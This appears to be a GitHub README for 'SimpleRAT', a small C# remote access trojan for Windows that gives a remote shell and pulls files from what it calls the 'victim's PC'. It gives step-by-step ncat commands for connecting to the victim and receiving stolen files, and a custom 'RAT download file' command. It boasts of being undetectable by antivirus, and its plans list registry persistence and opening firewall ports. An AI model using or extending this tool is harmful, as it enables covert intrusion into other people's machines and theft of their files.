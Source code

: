 # SimpleRAT

Small RAT/Backdoor written fully in C#.
After installation and launch, listens on port specified in JSON configuration. After successfull connection gives remote shell.
Developed for Windows.

# What RAT can
1. After connection on specified port (provided in JSON file, which can be changed as you wish), gives reverse shell.
2. Is able to download any files from victim's PC on specified port (provided in JSON file), no need for server setup or anything, only netcat on your side and launched RAT on victim's side :)
#### How to download files:
1. Put netcat on listening state (ncat -v -l -p "port for file download from JSON" > "file name with extension that you want to download")

Example: ncat -v -l -p 8889 > helloworld2.exe

NOTE: I advice you to use "-v" for more verbose output

2. Connect to victim PC through netcat (ncat <ip addrress> <port from JSON configuration on which RAT will be listening>)

Example: ncat 192.168.88.220 8888

3. Check if reverse shell is working (cd, dir)

5. Currently RAT has it's own command interpreter which will listen to commands from your PC, these type of commands begin with "RAT".

For file download command is - "RAT download file -p <windows/path/to/file/withextension>"
  
Process:
![RAT-guide](https://user-images.githubusercontent.com/53906830/109512165-1aee9280-7aa4-11eb-891f-89ff993b7dd4.png)


Currently is FUD as it is small and simple, without any specific features.

TODO/Plans: 

1. File upload to victim's PC;
2. Merge JSON configuration into exe file, not to download anything additionally;
3. Create key in registry for self startup;
4. Open ports required for communications (for main connection, for file download, etc).
